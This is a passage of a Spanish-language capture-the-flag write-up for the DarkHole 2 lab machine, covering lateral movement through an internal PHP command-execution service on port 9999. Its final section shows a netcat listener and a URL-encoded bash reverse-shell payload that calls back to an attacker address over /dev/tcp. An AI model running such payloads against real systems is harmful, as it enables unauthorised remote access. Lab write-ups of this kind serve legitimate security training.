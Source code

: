 > [!tip] Servicio Interno Detectado
> Existe un servicio web interno en puerto 9999 con capacidad de ejecución remota de comandos.

Comando para listar puertos en escucha:

netstat -tulpn

![[darkhole_2.20.png]]

Confirmación: servicio en LISTEN en puerto 9999.

Comando para ver procesos:
```
htop
```

![[darkhole_2.21.png]]

El servicio corre como usuario losy, servidor PHP ubicado en /opt/web.

Comandos para revisar el script PHP:
```
cd /opt/web
cat index.php
```
![[darkhole_2.22.png]]

Script PHP simple para ejecución remota de comandos vía parámetro cmd.

### Vector de Escalada

Exploración del directorio home:
![[darkhole_2.23.png]]
	Se encontró la flag user.txt en /home/.

#### Explotación del Servicio Interno

Prueba de concepto con curl:

curl "http://localhost:9999/?cmd=id"

![[darkhole_2.24.png]]

El comando se ejecuta como usuario losy, confirmando RCE.

#### Reverse Shell como losy

Listener en máquina atacante:

nc -lvnp 443

![[darkhole_2.25.png]]

Payload desde consola de jehad (URL encoded):

curl "http://localhost:9999/?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/172.16.23.1/443%200%3E%261'"
